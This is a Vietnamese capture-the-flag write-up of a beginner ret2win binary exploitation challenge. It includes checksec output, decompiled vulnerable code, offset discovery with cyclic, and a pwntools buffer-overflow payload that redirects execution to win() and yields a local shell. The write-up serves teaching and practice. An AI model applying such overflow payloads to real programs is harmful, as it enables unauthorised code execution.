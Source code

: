 # *Challenge : ret2win_chall*

***
- Kỹ thuật **ret2win** (return-to-win) trong PWN là một kỹ thuật khai thác đơn giản, thường dùng ở mức độ entry-level CTF để luyện tập return-oriented programming (ROP) và ghi đè return address.
- Các chế độ bảo vệ ảnh hưởng đến ret2win:

```
Cơ chế bảo vệ	Có bật ảnh hưởng đến      Ghi chú
                ret2win không?	        
NX	            ❌ Không                 Không dùng shellcode
Canary	        ✅ Có	                Không leak được → toang
PIE	            ✅ Có	                Phải leak base để tính win()
RELRO	        ❌ Không	                Không can thiệp GOT
ASLR	        ❌ Ít	                Không ảnh hưởng nếu không dùng libc
``` 

- Quay lại với file chall:
**Dùng checksec để kiểm tra:**
```
pwndbg> checksec
File:     /mnt/d/Documents/ISP/TASK1/1_ret2win/ret2win_chall
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x400000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
Debuginfo:  Yes
```

- No canary -> có thể buffer overflow
- No PIE -> địa chỉ các hàm là cố định (tĩnh) -> có thể dùng trực tiếp lệnh p &< func >
- Còn lại ko ảnh hưởng đến ret2win
* Xem pseudo code ở IDA xem, chương trình hoạt động ntn:
- Có 3 hàm chính: win(), vuln(), main():
Mô tả chương trình: tại hàm main() gọi hàm vuln(), tại vuln() khai báo buf[40], nhập buf và kết thúc chương trình
```c
    int __fastcall main(int argc, const char **argv,     const char **envp)
    {
    vuln();
    return 0;
    }
```
```c
    void __cdecl vuln()
    {
    char buf[40]; // [rsp+0h] [rbp-30h] BYREF

    printf("> ");
    fgets(buf, 100, _bss_start);
    }
```
```c
    void __cdecl win()
    {
    system("/bin/sh");
    }
```
- Mục tiêu: chiếm được ‘/bin/sh’ trong hàm win()
**Nhận diện ret2win:**
- chuỗi buf khai báo 40 phần tử mà fgets cho nhập 100 phần tử vào buf -> buffer overflow
- ta có thể tận dụng bof để ghi đè lên return address thành address của hàm win()
**Khai thác bằng pwndbg:**

*B1: Tìm offset để tràn từ buffer đến đúng địa chỉ ret.*
 + Nhảy đến hàm fgets, do fgets cho nhập tới 100 phần tử nên ta dùng lệnh cyclic 100 -> tạo chuỗi 100 chữ cái ko trùng nhau để nhập vào buffer
+ ni tiếp đến hàm return. Ta thấy ret đã bị overwrite thành địa chỉ khác
```
 ► 0x401192 <vuln+54>     ret                       <0x6161616161616168>
 ```
 
+ Ta sẽ tìm đc offset bằng cách dùng lệnh cyclic -l <address>
 
=> offset = 56
*B2: Do ko có cơ chế bảo vệ PIE nên ta có thể tìm địa chỉ hàm win() trực tiếp bằng p &< func >*
 ```pwndbg>
p &win
$1 = (void (*)()) 0x401146 <win>
```
=> win_addr = 0x401146 
(**Note:** với trường hợp PIE enable, ta nên tìm địa chỉ thực sự của win = lệnh exe.sym[‘win’]  )
* Viết payload bằng python:
```python
# PAYLOAD
    payload = flat(b'a'*56, 0x401146)

    p.sendline(payload)
    p.interactive()
```
- Thử gửi xem chiếm đc ‘/bin/sh’ chưa
->  Chương trình bị crash khi gửi payload (chưa chiếm đc shell)
- Thử debug động chương trình xem địa chỉ ret đã bị thay đổi chưa
-> đã đổi đc địa chỉ đến win nhưng khi vừa vào win ta thấy lỗi: địa chỉ stack 0x7fff9b0e4158 không chia hết cho 16 -> stack lẻ
 
Giải pháp: ta có thể nhảy trực tiếp vào hàm win() luôn, không cần là đầu hàm win()
-> cộng thêm địa chỉ của hàm win cho 5
Ta có payload mới
 ```python
# PAYLOAD
    payload = flat(b'a'*56, 0x401146 + 5)

    p.sendline(payload)
    p.interactive()
```
- Giờ gửi thử payload xem oke chưa
 ```
 $ python3 solve.py
[+] Starting local process '/mnt/d/Documents/ISP/TASK1/1_ret2win/ret2win_chall': pid 396
[*] Switching to interactive mode
$
$ whoami
d1nhdwc
$ ls
 ```
=> Đã chiếm đc shell
